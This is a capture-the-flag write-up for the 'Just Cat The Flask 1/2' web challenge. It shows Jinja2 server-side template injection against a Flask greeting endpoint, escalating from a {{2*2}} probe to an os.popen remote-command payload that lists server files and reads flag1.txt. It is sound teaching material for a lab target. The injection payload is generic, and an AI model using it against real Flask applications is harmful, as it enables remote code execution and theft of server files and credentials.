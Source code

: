 #  Just Cat The Flask 1/2 

The challenge provides the following url: https://bluehens-cat-the-flask.chals.io/greeting/hi

As the title says, the web application is built over Flask: Flask (and Jinja) can be vulnerable to [Server-Side Template Injection](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/#ssti-(server-side-template-injection)). 

To check if that is the case we can try inject the following simple payload:

    https://bluehens-cat-the-flask.chals.io/greeting/{{2 * 2}}

the response:
        
    Hello 4!

So far so good, we can try to exploit a more useful injection to inspect the server filesystem:

    https://bluehens-cat-the-flask.chals.io/greeting/{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

the response:

    Hi chall.py flag1.txt requirements.txt sum_suckers_creds !

At this point we just need to cat flag1.txt

    https://bluehens-cat-the-flask.chals.io/greeting/{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag1.txt').read() }}

and that's it:

    Welcome UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2} !